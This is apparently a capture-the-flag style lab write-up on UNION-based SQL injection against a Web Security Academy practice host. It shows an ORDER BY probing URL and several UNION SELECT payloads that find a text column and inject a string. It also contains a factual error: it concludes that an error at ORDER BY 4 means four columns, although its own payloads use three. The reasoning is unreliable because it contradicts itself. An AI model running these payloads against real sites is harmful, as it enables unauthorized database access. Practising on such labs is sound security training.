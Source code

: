 # Finding a Column Containing Text

### Objective

- Determine the number of columns returned in the server's response
- Determine which columns contains a string data type
- Return an additional row containing a string provided in a `UNION SELECT` statement

### Solution

To determine the number of columns returned in the response, make the following request to the server while incrementing the value of the `ORDER BY` clause until
an internal server error is returned:

```
https://<burp-subdomain>.web-security-academy.net/filter?category=Accessories' ORDER BY 1-- -
```

Using `ORDER BY 4-- -` returns the internal server error, so we know there are 4 columns being returned. Next, we can determine which column contains text data
by using the following SQL payloads:

```
' UNION SELECT 'a',NULL,NULL-- -
' UNION SELECT NULL,'a',NULL-- -
' UNION SELECT NULL,NULL,'a'-- -
```

An error will occur when the `'a'` has been specified in a column where text data is not compatible with the returned data type. The working payload is:

```
' UNION SELECT NULL,'a',NULL-- -
```

Use the payload above to return the string specified in the labs home page, like this:

```
' UNION SELECT NULL,'3HRR3g',NULL-- -
```
